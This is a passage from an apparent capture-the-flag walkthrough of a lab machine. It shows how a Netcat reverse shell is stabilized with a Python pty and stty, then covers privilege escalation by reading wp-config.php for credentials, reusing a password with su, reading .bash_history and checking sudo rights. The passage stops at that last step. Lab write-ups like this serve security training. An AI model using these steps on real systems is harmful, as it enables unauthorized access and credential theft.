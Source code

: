 The terminal which we just ran the `curl` command will be unavailable (unless you close the script with `CTRL+C`) but if we check to the new terminal running Netcat, we will have our upgraded shell:

![a847649ac9f3b1ed68fc82c1b48b3d55.png](/resources/077c2e0d0416485db585bee4d488385f.png)

Let's stablize the shell we just got by doing the following steps:

1. `python3 -c 'import pty;pty.spawn("/bin/bash")'` ... Use Python to spawn a stable shell
2. `CTRL + Z` ... Backgrounds the current shell
3. `stty raw -echo;fg` ... Fixes echoing and foregrounds the shell
4. `export TERM=xterm-256color` ... Sets terminal to xterm

![fb2dfac9e1c59a0ede62d30a2579346b.png](/resources/52d485b9d61944f2b37439d14277a258.png)

# Privilege Escalation

### \[-] scamsite\@TechSupport

Let's navigate to the WordPress installation directory by using the `cd /var/www/html/wordpress` command and list the files using `ls -lah`:

```sh
cd /var/www/html/wordpress
ls -lah
```

![e6b2cd6a9cc889a74186d850865d5111.png](/resources/ab5a5d07efc64dd5bbc95fcc41c311b0.png)

We can check the contents of the `wp-config.php` to see if we can find any credentials:

```sh
cat wp-config.php
```

![a6728d7f7564868d0dfe16c11d748594.png](/resources/86e66229b59242b08209d1cba4bbd36f.png)

Let's try to re-use this password on the `scamsite` account by using the [su](https://linux.die.net/man/1/su) command and enter the password when prompted:

```sh
su scamsite
```

Afer logging as the user `scamsite`, change to their home directory and check the `.bash_history` file for any useful commands (or typos) the user previously ran:

```sh
cd /home/scamsite/
cat .bash_history
```

![98683deddbb5ce0aadaa937b6447a854.png](/resources/8b05a69bae674c828bcec900591352bb.png)

The highlighted command above looks interesting since the user ran it with `sudo`. Let's check to see if we can still run it by checking the permissions using `sudo -l`:
